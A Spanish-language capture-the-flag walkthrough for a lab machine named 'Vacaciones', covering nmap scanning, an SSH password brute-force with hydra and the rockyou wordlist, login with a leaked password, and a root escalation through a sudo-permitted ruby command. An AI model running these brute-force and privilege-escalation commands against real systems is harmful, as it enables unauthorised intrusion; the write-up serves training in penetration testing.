








# Vacaciones

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP



Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web aparezca vacía.



De primeras, no se nos muestra nada, por lo que revisamos el código fuente por si hay alguna información oculta relevante.

<figure><figcaption></figcaption></figure>

Al parecer, hemos descubierto nombres que posiblemente sean los usuarios, por lo que intentaremos conectarnos a través de **SSH**.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**. Hemos probado varios usuarios, pero el que da respuesta es **camilo**.

<figure><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **camilo**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh camilo@172.17.0.2
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.



Como no somos **root**, debemos hacer una escalada de privilegios, pero antes revisaremos el correo que le envió **Juan** a **Camilo**.



Por lo que **Juan** nos ha dado su contraseña, seguramente él sea un usuario del grupo **sudo**, por lo que nos conectaremos a él.


Observamos que podemos escalar privilegios con **ruby** usando el comando:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Tras eso, ponemos:

```bash
whoami
```

y ya somos **root**.

<figure><figcaption></figcaption></figure>
